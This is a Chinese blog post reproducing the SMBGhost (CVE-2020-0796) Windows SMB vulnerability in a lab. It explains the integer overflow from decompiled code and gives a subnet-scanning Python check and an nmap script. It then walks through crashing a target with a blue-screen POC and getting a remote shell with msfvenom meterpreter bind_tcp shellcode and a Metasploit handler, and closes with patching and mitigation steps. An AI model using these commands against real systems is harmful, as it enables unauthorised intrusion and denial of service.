






# CVE-2020-0796 SMB 远程代码执行漏洞（分析、验证及加固） - Adminxe - 博客园

> 原文：[`www.cnblogs.com/cn-gov/p/Adminxe.html`](https://www.cnblogs.com/cn-gov/p/Adminxe.html)


## 0x00 前言

     最近一段时间一直忙，挺火的 **CVE-2020-0796 （永恒之黑）**都没来的及复现，今天趁着网快，赶快把漏洞系统下载下，并且准备了 检测 payload 、蓝屏 payload 、提权 payload、命令执行 payload，复现一波，相比起来，只是 payload 不同而已，来实现不同的功能，下面进行分析。

## 0x01 漏洞描述      

     漏洞公告显示，SMB 3.1.1 协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

## 0x02 漏洞危害等级        

高

## 0x03 影响版本

Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows Server, Version 1903 (Server Core installation)
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows Server, Version 1909 (Server Core installation)

**测试机 ip：192.168.1.159**



## 0x04 漏洞原理

    漏洞发生在 srv2.sys 中,由于 SMB 没有正确处理压缩的数据包,在解压数据包的时候使用客户端传过来的长度进行解压时,并没有检查长度是否合法.最终导致整数溢出。

SMB v3 中支持数据压缩,如果 SMB Header 中的 ProtocolId 为 0x424D53FC 也就是 0xFC, ‘S’, ‘M’, ‘B’.那么就说明数据是压缩的,这时 smb 会调用压缩解压处理的函数.

首先 SMB 会调用 srv2!Srv2ReceiveHandler 函数接收 smb 数据包，并根据 ProtocoIId 设置对应的处理函数。

```
__int64 __fastcall Srv2ReceiveHandler(__int64 a1, void *Src, __int64 a3, unsigned int a4, unsigned int *a5, char *Srca, struct _SLIST_ENTRY *a7, _QWORD *a8)
{
    ...
    //
    // 这里判断头部 ProtocolId
    //
     if ( **((_DWORD **)&v20[15].Next[1].Next + 1) == 'BMS\xFC' )
      {
        if ( KeGetCurrentIrql() > 1u )
        {
          v20[14].Next = (_SLIST_ENTRY *)v11;
          v20[2].Next = (_SLIST_ENTRY *)Srv2DecompressMessageAsync;
          v43 = HIDWORD(v20->Next) == 5;
          *((_DWORD *)&v20[3].Next + 2) = 0;
          if ( v43 )
          {
            LOBYTE(v71) = 1;
            LOBYTE(v35) = 1;
            SRV2_PERF_ENTER_EX(&v20[32].Next + 1, v35, 307i64, "Srv2PostToThreadPool", (_DWORD)v71);
          }
          v44 = *((_QWORD *)&v20[3].Next[8].Next + 1);
          v45 = *(_QWORD *)(v44 + 8i64 * KeGetCurrentNodeNumber() + 8);
          if ( !ExpInterlockedPushEntrySList((PSLIST_HEADER)(v45 + 16), v20 + 1) && *(_WORD *)(v45 + 66) )
            RfspThreadPoolNodeWakeIdleWorker(v45);
          goto LABEL_168;
            }
        }
}
```

产生整数溢出漏洞的代码如下：

```
__int64 __fastcall Srv2DecompressData(__int64 pData)
{
  __int64 v2; // rax
  COMPRESSION_TRANSFORM_HEADER Header; // xmm0 MAPDST
  __m128i v4; // xmm0
  unsigned int CompressionAlgorithm; // ebp
  __int64 UnComparessBuffer; // rax MAPDST
  int v9; // eax
  int v11; // [rsp+60h] [rbp+8h]
  v11 = 0;
  v2 = *(_QWORD *)(pData + 0xF0);
  if ( *(_DWORD *)(v2 + 0x24) < 0x10u )         // 这里判断数据包长度的最小值
    return 0xC000090Bi64;
  Header = *(COMPRESSION_TRANSFORM_HEADER *)*(_QWORD *)(v2 + 0x18);// [v2+0x18]中为客户端传进来的 Buffer
                                                // [v2+0x24]为数据包长度
  v4 = _mm_srli_si128((__m128i)Header, 8);
  CompressionAlgorithm = *(_DWORD *)(*(_QWORD *)(*(_QWORD *)(pData + 0x50) + 0x1F0i64) + 0x8Ci64);
  if ( CompressionAlgorithm != v4.m128i_u16[0] )
    return 0xC00000BBi64;                      
  UnCompressBuffer = SrvNetAllocateBuffer((unsigned int)(Header.OriginalCompressedSegmentSize + v4.m128i_i32[1]), 0i64);// OriginalCompressedSegmentSize + CompressedSegmentSize，这里没有检查相加的值，导致整数溢出，分配一个较小的 UnCompressBuffer
  if ( !UnComparessBuffer )
    return 0xC000009Ai64;
  if ( (int)SmbCompressionDecompress(
              CompressionAlgorithm,             // CompressionAlgorithm
              *(_QWORD *)(*(_QWORD *)(pData + 0xF0) + 0x18i64) + (unsigned int)Header.Length + 0x10i64,// CompressedBuffer
              (unsigned int)(*(_DWORD *)(*(_QWORD *)(pData + 0xF0) + 0x24i64) - Header.Length - 0x10),// CompressedBufferSize
              (unsigned int)Header.Length + *(_QWORD *)(UnComparessBuffer + 0x18),// UncompressedBuffer，会传入 SmbCompressionDecompress 函数进行 Decompress 处理。
              Header.OriginalCompressedSegmentSize,
              &v11) < 0
    || (v9 = v11, v11 != Header.OriginalCompressedSegmentSize) )
  {
    SrvNetFreeBuffer(UnComparessBuffer);
    return 0xC000090Bi64;
  }
  if ( Header.Length )
  {
    memmove(
      *(void **)(UnComparessBuffer + 24),
      (const void *)(*(_QWORD *)(*(_QWORD *)(pData + 240) + 24i64) + 16i64),
      (unsigned int)Header.Length);
    v9 = v11;
  }
  *(_DWORD *)(UnComparessBuffer + 36) = Header.Length + v9;
  Srv2ReplaceReceiveBuffer(pData, UnComparessBuffer);
  return 0i64;
}
```

## 0x05 **漏洞检测**

已经很多的验证脚本，整体的思路都是验证回包中的特定位置是否包含十六进制的\x11\x03 或\x02\x00 这两个关键字。在存在漏洞的 SMB 版本的通信回包如下：



python3 版 POC

```
import socket
import struct
import sys
from netaddr import IPNetwork

pkt = b'\x00\x00\x00\xc0\xfeSMB@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$\x00\x08\x00\x01\x00\x00\x00\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00x\x00\x00\x00\x02\x00\x00\x00\x02\x02\x10\x02"\x02$\x02\x00\x03\x02\x03\x10\x03\x11\x03\x00\x00\x00\x00\x01\x00&\x00\x00\x00\x00\x00\x01\x00 \x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\n\x00\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00'

subnet = sys.argv[1]

for ip in IPNetwork(subnet):

    sock = socket.socket(socket.AF_INET)
    sock.settimeout(3)

    try:
        sock.connect(( str(ip),  445 ))
    except:
        sock.close()
        continue

    sock.send(pkt)

    nb, = struct.unpack(">I", sock.recv(4))
    res = sock.recv(nb)
    if res[68:70] != b"\x11\x03" or res[70:72] != b"\x02\x00":
        print(f"{ip} Not vulnerable.")
    else:
        print(f"{ip} Vulnerable")
```

也可以使用 nmap 的脚本进行验证，依托 nmap 的强大框架，更方便。

```
local smb = require "smb"
local stdnse = require "stdnse"
local nmap = require "nmap"

description = [[
smb-protocols script modified to apply check for CVE-2020-0796 by psc4re. 
Attempts to list the supported protocols and dialects of a SMB server.
Packet check based on https://github.com/ollypwn/SMBGhost/
The script attempts to initiate a connection using the dialects:
* NT LM 0.12 (SMBv1)
* 2.02       (SMBv2)
* 2.10       (SMBv2)
* 3.00       (SMBv3)
* 3.02       (SMBv3)
* 3.11       (SMBv3)
Additionally if SMBv1 is found enabled, it will mark it as insecure. This
script is the successor to the (removed) smbv2-enabled script.
]]

---
-- @usage nmap -p445 --script smb-protocols <target>
-- @usage nmap -p139 --script smb-protocols <target>
--
-- @output
-- | smb-protocols:
-- |   dialects:
-- |     NT LM 0.12 (SMBv1) [dangerous, but default]
-- |     2.02
-- |     2.10
-- |     3.00
-- |     3.02
-- |_    3.11 (SMBv3.11) compression algorithm - Vulnerable to CVE-2020-0796 SMBGhost
--
-- @xmloutput
-- <table key="dialects">
-- <elem>NT LM 0.12 (SMBv1) [dangerous, but default]</elem>
-- <elem>2.02</elem>
-- <elem>2.10</elem>
-- <elem>3.00</elem>
-- <elem>3.02</elem>
-- <elem>3.11 (SMBv3.11) [Potentially Vulnerable to CVE-2020-0796 Coronablue]</elem>
-- </table>
---

author = "Paulino Calderon (Modified by Psc4re)"
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"
categories = {"safe", "discovery"}

hostrule = function(host)
  return smb.get_port(host) ~= nil
end

action = function(host,port)
  local status, supported_dialects, overrides
  local output = stdnse.output_table()
  overrides = {}
  status, supported_dialects = smb.list_dialects(host, overrides)
  if status then
    for i, v in pairs(supported_dialects) do -- Mark SMBv1 as insecure
      if v == "NT LM 0.12" then
        supported_dialects[i] = v .. " (SMBv1) [dangerous, but default]"
      end
      if v == "3.11" then
        local msg 
        local response
        local compresionalg
        local comp
        msg = '\x00\x00\x00\xc0\xfeSMB@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$\x00\x08\x00\x01\x00\x00\x00\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00x\x00\x00\x00\x02\x00\x00\x00\x02\x02\x10\x02"\x02$\x02\x00\x03\x02\x03\x10\x03\x11\x03\x00\x00\x00\x00\x01\x00&\x00\x00\x00\x00\x00\x01\x00 \x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\n\x00\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00'
        local socket = nmap.new_socket()
        socket:set_timeout(3000)
        socket:connect(host.ip,445)
        socket:send(msg)
        response,data = socket:receive()
        compressionalg=  string.sub(data,-2)    
        if compressionalg == "\x01\x00" then
          comp = "LZNT1 compression algorithm - Vulnerable to CVE-2020-0796 SMBGhost"
        elseif compressionalg == "\x02\x00" then
          comp ="LZ77 compression algorithm - Vulnerable to CVE-2020-0796 SMBGhost"
        elseif compressionalg == "\x00\x00" then
          comp ="No Compression Not Vulnerable"
        elseif compressionalg == "\x03\x00" then
          comp="LZ77+Huffman compression algorithm - Vulnerable to CVE-2020-0796 SMBGhost"
        end
        supported_dialects[i] = v .." " .. comp
      end
    end
    output.dialects = supported_dialects
  end

  if #output.dialects>0 then
    return output
  else
    stdnse.debug1("No dialects were accepted")
    if nmap.verbosity()>1 then
      return "No dialects accepted. Something may be blocking the responses"
    end
  end
end
```

也可以使用奇安信的 POC 检测脚本进行测试：


## 0x06 本地提权 POC

成功提升权限至 nt authority\system



## 0x07 蓝屏测试

这边节省时间，去采集几张图片，git 下载地址依然放给大家，请勿用于破坏，违者自己承担后果。

首先，git 下载蓝屏测试的 [poc](https://github.com/insightglacier/SMBGhost_Crash_Poc)
安装好依赖

攻击机器 Kali ip：192.168.1.160

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 setup.py install
```



利用脚本进行蓝屏攻击

```
python3 gistfile1.py 192.168.1.159
```


## 0x08 远程命令执行 shell

首先使用 systeminfo 看一下补丁（KB4551762）
kali 下生成 python 版本的反弹 shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py
```

查看生成的 shellcode

```
cat exp.py
```


将生成的 exp.py 代码中的变量 buf 全部替换成变量 USER_PAYLOAD，然后将所有代码粘贴覆盖下面的代码处：


```
use exploit/multi/handler 
set payload windows/x64/meterpreter/bind_tcp
set lport 2333
set rhost 192.168.1.106 （目标 ip）
run
```



## 0x09 漏洞修复

1\. 更新，完成补丁的安装。

操作步骤：设置->更新和安全->Windows 更新，点击“检查更新”。

2.微软给出了临时的应对办法：
运行 regedit.exe，打开注册表编辑器，在 HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters 建立一个名为 DisableCompression 的 DWORD，值为 1，禁止 SMB 的压缩功能。

3.对 SMB 通信 445 端口进行封禁。4.补丁链接[`catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762`](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762)

### 参考连接

*   https://www.cnblogs.com/A66666/p/29635a243378b49ccb485c7a280df989.html
*   https://github.com/danigargu/CVE-2020-0796
*   http://dl.qianxin.com/skylar6
*   https://github.com/ollypwn/SMBGhost
*   https://github.com/chompie1337/SMBGhost_RCE_PoC
*   https://github.com/danigargu/CVE-2020-0796
*   https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/

转载请注明：[Adminxe's Blog](https://www.adminxe.com/) » [CVE-2020-0796 SMB 远程代码执行漏洞（分析、验证及加固）](https://www.adminxe.com/1220.html)